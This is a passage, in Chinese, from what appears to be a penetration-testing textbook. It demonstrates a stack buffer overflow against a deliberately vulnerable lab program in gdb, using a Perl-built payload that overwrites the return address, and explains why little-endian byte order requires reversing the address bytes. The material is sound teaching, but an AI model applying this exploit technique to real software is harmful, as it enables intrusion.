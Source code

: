 ### 注意

这不会给我们带来反向 shell 或将目标加入僵尸网络；它只会将“执行劫持”打印到屏幕上。我们将在接下来的三个章节的漏洞开发示例中，看到更刺激的执行劫持攻击。

我们可以使用 Perl 来帮助我们创建参数字符串，其中包含我们想要使用的内存地址的十六进制字节，以覆盖返回地址，如下所示。

```
(gdb) **run $(perl -e 'print "A" x 9 . "\x08\x04\x83\xf4"')**
Starting program: /home/georgia/overflowtest $(perl -e 'print "A" x 9 . "\x08\x04\x83\xf4"')
```

这次，我们将四个 *B* 替换为 `\x08\x04\x83\xf4`，这应该会将执行流程重定向到 `overflowed` 的开头。但事情并没有按计划进行，如示例 16-15 所示。

示例 16-15. 返回地址字节被翻转

```
Breakpoint 3, function (str=0xbffff700 "\017") at overflowtest.c:11
11    }
(gdb) **x/16xw $esp**
0xbffff510:    0xbffff523    0xbffff744    0xbffff528    0x080482e8
0xbffff520:    0x41fcfff4    0x41414141    0x41414141    0xf4830408❶
0xbffff530:    0xbffff700    0xbffff550    0xbffff5a8    0xb7e8c685
0xbffff540:    0x08048470    0x08048340    0xbffff5a8    0xb7e8c685
(gdb) **continue**
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xf4830408 in ?? ()
```

如你所见，我们按预期达到了断点，但当我们检查内存时，似乎遇到了一些问题。`overflowed` 中第一条指令的内存地址是 `0x80483f4`，但我们栈上的返回地址却是 `0xf4830408` ❶。数字没有完全被反转，但字节顺序却是错误的。

回想一下，两个十六进制数字构成一个字节。当我们让程序继续运行时，收到另一个访问违规错误，因为它尝试在 `0xf4830408` 执行数据。我们知道程序崩溃是因为新的返回地址是错误的，所以让我们来看看这些字节到底是如何乱序的，以便修复这个问题。

### 字节序

当我第一次学习基本的漏洞开发时，我花了很多时间抓耳挠腮，想不通是什么原因让我的漏洞无法成功。我曾经遇到过这个问题，不幸的是，我在操作系统课上学到字节序时并没有认真听讲。

在 1726 年出版的小说《格列佛游记》中，乔纳森·斯威夫特的主人公格列佛在海上遭遇沉船事故，漂流到小人国岛。小人国与邻国布莱福斯库的关系紧张，原因是关于如何正确地打开鸡蛋的争执。在小人国，鸡蛋从小的一端裂开，而在布莱福斯库，鸡蛋从大的一端裂开。在计算机科学中，我们也有类似的争论，涉及字节顺序问题。大端序认为最重要的字节应当首先存储，而小端序则首先存储最不重要的字节。我们的 Ubuntu 虚拟机采用的是英特尔架构，属于*小端序*。为了适应小端架构，我们需要翻转内存地址中的字节顺序，如下所示。

```
(gdb) **run $(perl -e 'print "A" x 9 . "\xf4\x83\x04\x08"')**
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/georgia/overflowtest $(perl -e 'print "A" x 9 . "\xf4\x83\x04\x08"')
```

使用返回地址 `\xf4\x83\x04\x08`，并翻转字节顺序以适应我们的英特尔架构，修复了我们的问题，如示例 16-16 所示。

示例 16-16. 成功劫持执行

```
Breakpoint 3, function (str=0xbffff700 "\017") at overflowtest.c:11
11    }
(gdb) **x/16xw $esp**
0xbffff510:    0xbffff523    0xbffff744    0xbffff528    0x080482e8
0xbffff520:    0x41fcfff4    0x41414141    0x41414141    0x080483f4
0xbffff530:    0xbffff700    0xbffff550    0xbffff5a8    0xb7e8c685
0xbffff540:    0x08048470    0x08048340    0xbffff5a8    0xb7e8c685

(gdb) **continue**
Continuing.
Execution Hijacked ❶

Program received signal SIGSEGV, Segmentation fault.
```